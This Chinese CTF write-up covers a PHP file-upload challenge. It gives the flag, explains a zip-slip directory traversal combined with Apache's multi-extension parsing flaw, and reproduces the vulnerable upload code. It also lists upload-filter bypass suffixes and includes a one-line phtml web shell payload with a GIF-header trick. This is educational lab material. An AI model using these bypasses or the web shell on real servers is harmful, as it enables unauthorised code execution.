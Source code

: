 ```yaml
---
Author: SuperJason
Date: 2020-12-21
---
```


## flag
n1book{ThisIsUpLoadToPicfl4g}

## 思路
1. 访问环境，php文件上传源码解析题，用户可以上传zip、jpg、gif、png文件。其中zip文件中不能包含php文件
2. 上传成功的jpg、gif、png文件会被放入一个随机数构造的文件目录中，需要使用目录穿越  
```php
$temp_dir = $dir.md5(time(). rand(1000,9999));
......
if($ext == 'zip'){
    ......
    check_dir($dir);
    exit('上传成功!');
}else{
    move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
    check_dir($dir);
    exit('上传成功!');
```
3. check_dir函数的功能是确保上传的文件后缀名为jpg、gif、png，如果是其他后缀名则删除文件。   
   - `opendir`创建文件目录句柄
   - `readdir`返回目录中下一个文件的文件名
   - `move_uploaded_file ( string $filename , string $destination ) : bool`检查并确保由 filename 指定的文件是合法的上传文件（即通过 PHP 的 HTTP POST 上传机制所上传的）。如果文件合法，则将其移动为由 destination 指定的文件。
4. 这道题的攻击点已经出来了。
   - 压缩包文件目录穿越
   - Apache php文件解析漏洞，xxx.php.xxx被解析为php
5. 原始123456789123456789.php文件内容为  
```php
<?php
echo phpinfo();
?>
```
6. 通过010editor构造恶意压缩包，这里需要注意修改后的文件名长度与修改前一致，否则解压会报错，这里改为`/../../jason07.php.xxx`  
![](./images/file-upload-1.png)
7. 上传[压缩包](./scripts/123456789123456789.zip)，访问`jason07.php.xxx`，得到flag，不过这道题没有把phpinfo()解析出来。  
![](./images/file-upload-2.png)


## 总结
文件上传主要是上传恶意php，该文件要能被访问并且被服务器解析，本题考点在于
- 压缩包文件目录穿越，压缩包内文件命名为  
  `/../../xxx.php.xxx`
- Apache php解析漏洞  
  `xxx.php.xxx`被当成`xxx.php`解析
- php源码分析  
### 进一步的扩宽一下难度
- 服务器端可能会校验文件格式，例如严格限制jpg的格式，可能需要用到[jpg_payload脚本](./scripts/jpg_payload.php)在jpg中插入恶意php载荷
- IIS6 `*.asp`文件夹下所有文件被当做脚本进行解析，例如`x.asp,a.jpg`
- php可执行后缀  
  `php3、php5、phtml、pht`   
  其中phtml的载荷可以为`<script language="php">eval($_POST['shell']);</script>`    
  如果需要绕过图片限制，可以在载荷前一行加`GIF`
- asp可执行后缀  
  `cdx、cer、asa`
- jsp可执行后缀  
  `jspx`


## 源代码
```php
<?php
header("Content-Type:text/html; charset=utf-8");
// 每5分钟会清除一次目录下上传的文件
require_once('pclzip.lib.php');

if(!$_FILES){

        echo '

<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>文件上传章节练习题</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@3.3.7/dist/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <style type="text/css">
        .login-box{
            margin-top: 100px;
            height: 500px;
            border: 1px solid #000;
        }
        body{
            background: white;
        }
        .btn1{
            width: 200px;
        }
        .d1{
            display: block;
            height: 400px;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="login-box col-md-12">
        <form class="form-horizontal" method="post" enctype="multipart/form-data" >
            <h1>文件上传章节练习题</h1>
            <hr />
            <div class="form-group">
                <label class="col-sm-2 control-label">选择文件：</label>
                <div class="input-group col-sm-10">
                    <div >
                    <label for="">
                        <input type="file" name="file" />
                    </label>
                    </div>
                </div>
            </div>
                
        <div class="col-sm-8  text-right">
            <input type="submit" class="btn btn-success text-right btn1" />
        </div>
        </form>
        </div>
    </div>
</body>
</html>
';

    show_source(__FILE__);
}else{
    $file = $_FILES['file'];

    if(!$file){
        exit("请勿上传空文件");
    }
    $name = $file['name'];

    $dir = 'upload/';
    $ext = strtolower(substr(strrchr($name, '.'), 1));
    $path = $dir.$name;

    function check_dir($dir){
        $handle = opendir($dir);
        while(($f = readdir($handle)) !== false){
            if(!in_array($f, array('.', '..'))){
                if(is_dir($dir.$f)){
                    check_dir($dir.$f.'/');
                 }else{
                    $ext = strtolower(substr(strrchr($f, '.'), 1));
                    if(!in_array($ext, array('jpg', 'gif', 'png'))){
                        unlink($dir.$f);
                    }
                }
            
            }
        }
    }

    if(!is_dir($dir)){
        mkdir($dir);
    }

    $temp_dir = $dir.md5(time(). rand(1000,9999));
    if(!is_dir($temp_dir)){
        mkdir($temp_dir);
    }

    if(in_array($ext, array('zip', 'jpg', 'gif', 'png'))){
        if($ext == 'zip'){
            $archive = new PclZip($file['tmp_name']);
            foreach($archive->listContent() as $value){
                $filename = $value["filename"];
                if(preg_match('/\.php$/', $filename)){
                     exit("压缩包内不允许含有php文件!");
                 }
            }
            if ($archive->extract(PCLZIP_OPT_PATH, $temp_dir, PCLZIP_OPT_REPLACE_NEWER) == 0) {
                check_dir($dir);
                   exit("解压失败");
            }

            check_dir($dir);
            exit('上传成功!');
        }else{
            move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
            check_dir($dir);
            exit('上传成功!');
        }
    }else{
        exit('仅允许上传zip、jpg、gif、png文件!');
    }
}
```
